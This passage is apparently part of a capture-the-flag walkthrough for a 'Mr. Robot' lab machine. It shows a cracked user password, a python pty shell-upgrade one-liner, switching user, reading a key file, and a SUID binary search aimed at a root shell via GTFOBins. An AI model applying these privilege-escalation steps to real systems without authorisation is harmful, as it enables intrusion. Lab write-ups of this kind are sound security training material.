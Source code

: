 <img src="./img/Screenshot 2024-08-24 122540.png"></img>
we got a robot user password
```
abcdefghijklmnopqrstuvwxyz
```

Now if we put "su robot" it will throw a error because it needs pty terminal
import that terminal.
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

```
su robot
password: abcdefghijklmnopqrstuvwxyz
```
now open key file
```
cat /home/robot/key-2-of-3.txt
```
```
key-2-of-3.txt
822c73956184f694993bede3eb39f959
```
We got second key successfully.
Get into the root
```
find / -perm -4000 -type f 2>/tmp/2
```
searched got a command to get the root shell from gtfobins
